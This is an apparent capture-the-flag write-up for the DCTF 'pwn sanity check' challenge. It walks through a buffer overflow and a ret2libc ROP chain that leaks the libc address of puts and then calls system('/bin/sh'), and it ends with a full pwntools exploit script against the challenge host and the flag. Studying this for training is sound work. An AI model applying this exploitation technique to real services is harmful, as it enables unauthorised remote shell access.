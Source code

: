 Prompt: 
```
This should take about 1337 seconds to solve.
```

The original problem is intended to be a ret2win problem with a simpler approach which involves overwriting the return address to the address of the instruction which executes `/bin/sh` within the `sym.win` function.

However, I approached the problem with a ret2libc solution which involved leaking the libc address and building a simple ROPchain to invoke `/bin/sh` instead.

The first part of the problem involves a simple buffer overflow where we change the value of a variable which gets compared against `0xdeadc0de` and if the comparison succeeds, then execution continues in the `sym.shell` function, which claims to invoke `/bin/sh` but does not do anything besides print a few messages. The offset for the value that we need to overwrite turned out to be 60, which we got after using a DeBrujin sequence to overflow the buffer and found the offset by doing a query against `msf-patter_offset`.

In order to complete the exploit, we will leak libc addresses. We will obtain the GOT and PLT address of `puts` via pwntools. We will also get the address of `main` in our binary. We also need a few gadgets, so we will obtain the addresses of `pop rdi;ret` and `ret` gadgets that we can use.

We sent our first payload consisting of:
```
(Padding of length 60) + (0xdeadc0de) + (Padding of length 4 for stack alignment) + (pop rdi;ret address) + (GOT address of puts) + (PLT address of puts) + (address of sym.main)
```

This results in leakage of the address of `puts` in libc.

We then take that leaked address and subtract it by the address of `puts` in the libc library loaded by the target computer (`libc6_2.31-0ubuntu9_amd64.so` which we get by searching the libc database against the last 3 bytes of the leaked `puts` address) to get the base address of libc.

Then we use https://libc.blukat.me/ to search for the libc offsets of `system` and `/bin/sh` for that libc version which turned out to be `0x055410` and `0x1b75aa`, respectively.

Running our first payload will result in execution flow returning to main after leaving the `sym.shell` function.
To build our second payload which we will provide the second time we are asked for input (we will be asked 'tell me a joke' twice):
```
(Padding of length 60) + (0xdeadc0de) + (Padding of length 4 for stack alignment) + (pop rdi;ret address) + (address of /bin/sh) + (ret address) + (address of system)
```

Sending this second payload results in a shell spawning. We can now retrieve the flag by running `cat flag.txt`.

![Flag](pwn-sanity-check1.png)

Full exploit code:
```python
#!/usr/bin/python3

from pwn import *

# p = process('./pwn_sanity_check')
p = remote('dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io', 7480)
elf = ELF("pwn_sanity_check")
libc = ELF("libc6_2.31-0ubuntu9_amd64.so")
rop = ROP(elf)

FUNC_GOT = elf.got["puts"]
PUTS_PLT = elf.plt["puts"]
MAIN_SYM = elf.symbols["main"]
RET = (rop.find_gadget(['ret']))[0]
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]

pad = b'C' * 60
payload1 = pad
payload1 += p64(0xdeadc0de)
payload1 += b'B' * 4
payload1 += p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_SYM)

p.sendlineafter('tell me a joke\n',payload1)
p.recvline_contains("If this is not good enough")

#Parse leaked address
recieved = p.recvline().strip()
leak =  u64(recieved.ljust(8,b"\x00"))
log.info("Leaked libc address, Puts: %s" % hex(leak))

_libc_start_main = leak - libc.sym["puts"]
log.info("Base address of libc: %s " % hex(_libc_start_main))

system = _libc_start_main + 0x055410
bin_sh = _libc_start_main + 0x1b75aa

log.info("system %s" % hex(system))
log.info("bin_sh %s" % hex(bin_sh))

payload2 = pad
payload2 += p64(0xdeadc0de)
payload2 += b'B' * 4
payload2 += p64(POP_RDI)
payload2 += p64(bin_sh)
payload2 += p64(RET)
payload2 += p64(system)

p.sendlineafter('tell me a joke\n',payload2)
p.interactive()
```

Flag: `dctf{Ju5t_m0v3_0n}`

